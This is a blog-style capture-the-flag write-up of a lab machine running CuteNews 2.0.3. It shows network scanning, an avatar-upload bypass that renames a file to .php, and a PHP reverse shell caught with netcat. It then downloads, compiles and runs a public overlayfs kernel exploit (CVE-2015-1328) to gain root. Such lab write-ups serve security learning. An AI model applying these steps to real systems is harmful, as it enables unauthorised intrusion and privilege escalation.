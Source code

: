 ```yaml
---
layout: post
title:  CTF simple CTF
date:   2022-03-02 18:20:52 -0600
categories: CTF
tags: Linux
---
```

# netdiscover

```sh
sudo netdiscover 
```
![](https://i.imgur.com/aXeWVbF.png)

192.168.0.27

# nmap
```sh
nmap -sV 192.168.0.27

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

# Port 80
http://192.168.0.27
![](https://i.imgur.com/cVxT6Q1.png)
As we can see it's running `CuteNews v.2.0.3`.
Les't see if I can exploit it.

https://www.exploit-db.com/exploits/37474

```txt
# Exploit  :
 
Vuln : http://127.0.0.1/cutenews/index.php?mod=main&opt=personal
  
 1 - Sign up for New User
 2 - Log In 
 3 - Go to Personal options http://www.target.com/cutenews/index.php?mod=main&opt=personal
 4 - Select Upload Avatar Example: Evil.jpg
 5 - use tamper data  & Rename File Evil.jpg to Evil.php
  
-----------------------------2847913122899\r\nContent-Disposition: form-data; name="avatar_file"; filename="Evil.php"\r\

6 - Your Shell : http://127.0.0.1/cutenews/uploads/avatar_Username_FileName.php

 Example: http://127.0.0.1/cutenews/uploads/avatar_toxic_Evil.php
```
I have to register first, I'm gonna use the name `user1`.
## Download the revershell

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
You have to change the IP address and the port.
You have to put the IP address of your computer, I always use the port 4648.
Save the file as `rc.jpg`.

## Tamper data exploit

Open `burpsuit`.
Proxy -> intercept -> open browser:
go to this page: http://192.168.0.27/index.php?mod=main&opt=personal
You have to forward to send the Request.
Now send the file `rc.jpg` in the form.
![](https://i.imgur.com/b8cTM45.png)
Rename the file in `rc.php`.
![](https://i.imgur.com/XQeTVdA.png)
You can close burpsuit now.

## netcat
You have to listen with netcat.
```sh
nc -nlvp 4648
```
Now you can open the revers-shell.
![](https://i.imgur.com/7Xp0u8s.png)
Now I have a shell.
![](https://i.imgur.com/AGkiKPI.png)

# CVE-2015-1328
```sh
uname -a

Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
```
Let's go.
https://www.exploit-db.com/exploits/37292
I download the exploit on his computer in `/tmp`.
```sh
wget https://www.exploit-db.com/download/37292 -O exp.c
```
Then use gcc:
```sh
gcc exp.c -o ofs
```
And run it.
```sh
./ofs
```
I'm root

![](https://i.imgur.com/A5CDG2q.png)














